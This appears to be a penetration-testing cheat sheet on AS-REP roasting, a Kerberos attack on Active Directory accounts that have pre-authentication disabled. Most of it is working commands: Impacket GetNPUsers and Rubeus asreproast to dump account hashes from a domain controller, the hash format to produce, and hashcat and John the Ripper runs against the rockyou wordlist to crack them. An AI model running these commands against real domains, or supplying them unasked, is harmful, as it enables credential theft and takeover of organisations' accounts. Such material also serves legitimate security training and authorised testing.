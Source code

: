 AS-REP roasting works by scanning for users on an AD-network without the "Require pre-authentication" flag enabled.
Where normally, you'd need to send a ticket request to the DC encrypted with the target user's password, it is not required for machines without pre-authentication.
This means you can get the KRB-AS-REP hash without the user's password.

## Impacket
##### Requirements
Domain name of the AD
IP address of the Domain Controller
A list of target users

##### Obtaining hashes
Impacket will dump the KRB5AS-REP hash of all users with pre-authentication disabled:
```
impacket-GetNPUsers 'DOMAIN_NAME/' -usersfile users.txt -no-pass -dc-ip 10.10.30.254
```
Note: make sure to add the `/` after the `DOMAIN_NAME`, otherwise the exploit will fail.

## Rubeus.exe
##### Requirements
Access to the AD (any)

##### Obtaining hashes
Rubeus will dump the KRB5ASREP hash of all users with pre-authentication disabled:
```
./Rubeus.exe asreproast
./Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt
```

##### Cracking hashes
Important: Make sure to add "$23" to the hash, so that it resembles
```
$krb5asrep$23$USERNAME@MACHINE.DOMAIN:HASH
```

Crack hashes using Hashcat:
```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
John:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```